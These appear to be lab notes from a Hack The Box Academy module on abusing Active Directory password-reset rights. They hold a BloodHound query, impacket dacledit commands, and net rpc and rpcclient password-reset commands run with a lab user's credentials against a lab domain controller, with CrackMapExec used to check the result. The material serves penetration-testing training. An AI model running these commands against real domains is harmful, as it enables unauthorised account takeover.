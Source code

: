 
---
---
## Identifying Vulnerable Accounts

We can use `BloodHound` to identify if we have those access rights. Using a Cypher query, let us search for `Pedro`, and whether he has `ForceChangePassword`, `GenericAll` or `AllExtendedRights` over any account:

```cypher
MATCH p=((n:User {name:"PEDRO@INLANEFREIGHT.LOCAL"})-[r:ForceChangePassword|GenericAll|AllExtendedRights]->(m)) RETURN p
```

![pedro_passwordAttacks.jpg](https://academy.hackthebox.com/storage/modules/219/pedro_passwordAttacks.jpg)

#### Querying Pedro's DACL over yolanda

```bash
python3 examples/dacledit.py -principal pedro -target yolanda -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```

#### Querying Pedro's DACL over htb-test

```bash
python3 examples/dacledit.py -principal pedro -target htb-test -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```
#### Querying Pedro's DACL over joshua

```bash
python3 examples/dacledit.py -principal pedro -target joshua -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```
## Abusing PasswordReset From Linux

> Validating the Credentials

```bash
poetry run crackmapexec ldap 10.129.205.81 -u yolanda -p Mynewpassword1
```

> Password Reset with net

```shell
net rpc password yolanda Mynewpassword1 -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81
```

> Validating the Credenatils

```shell
poetry run crackmapexec ldap 10.129.205.81 -u yolanda -p Mynewpassword1
```

> Password Reset with rpcclient

```shell
rpcclient -U INLANEFREIGHT/pedro%SecuringAD01 10.129.205.81
```

> Validating the Credentials

```shell
poetry run crackmapexec ldap 10.129.205.81 -u yolanda -p Mynewpassword2
```

---
---
